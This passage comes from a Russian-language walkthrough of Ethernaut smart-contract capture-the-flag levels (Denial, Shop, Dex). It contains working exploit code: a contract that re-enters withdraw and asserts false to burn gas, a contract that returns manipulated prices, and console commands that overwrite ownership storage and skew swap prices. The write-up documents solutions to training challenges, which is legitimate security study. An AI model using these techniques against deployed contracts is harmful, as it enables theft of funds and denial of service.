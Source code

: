 ```
>contract.retract()
>contract.retract()
>contract.retract()
>contract.revise('0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a', '0x000000000000000000000001000003414ba674ebdf64c1e78d76a127d95463eb')
>await contract.owner()
'0x000003414bA674eBdf64C1E78d76a127d95463EB'


### 20. Denial (***)
Чет вторая задача с которой с первого раза не справился. Хм... Пришло время думать :/
Короче надо сделать так, чтобы вызов call забирал весь свободный газ. Или больше 1 млн
Как вариант - круговой вызов, да еще и assert(false)
```
contract Wilys {
    Denial denial;
    constructor(address payable a) {
        denial = Denial(a);
    }

    receive() external payable { 
        denial.withdraw();
        assert(false);
    }
}
```

### 21. Shop (**)
После предыдущей задачи это просто. Снова нужен контракт, а в контракте в зависимости от флага покупки подставляю цену больше или меньше от прайса. Easy - я э говорил)
```
contract Buyer {
    Shop shop;
    constructor(address a) {
        shop = Shop(a);
    }

    function buy() external {
        shop.buy();
    }

    function price() external view returns (uint) {
        if(shop.isSold() == false) {
            return shop.price() + 10;
        } else {
            return shop.price() - 10;
        }
    }
}
```

### 22. Dex (**)
Вот она - токеномика))
>Number(await contract.balanceOf('0x1ebc77Cb6FD737c6d0ef827B7Dfd7bebD89De190', player))
10
Для удобства
>const t1 = '0x1ebc77Cb6FD737c6d0ef827B7Dfd7bebD89De190'
>const t2 = '0x09102cC7Bf1F1CE5295dF0A4cD47c9031f0dd860'
>await contract.getSwapPrice(t1, t2, 10)
10, цена 1:1

>await contract.approve(contract.address, 10000)
>await contract.swap(t1, t2, 1)
>await contract.getSwapPrice(t1, t2, 10)
9 - ага, все правильно, цена меняется. Теперь несколько операций для победы
```
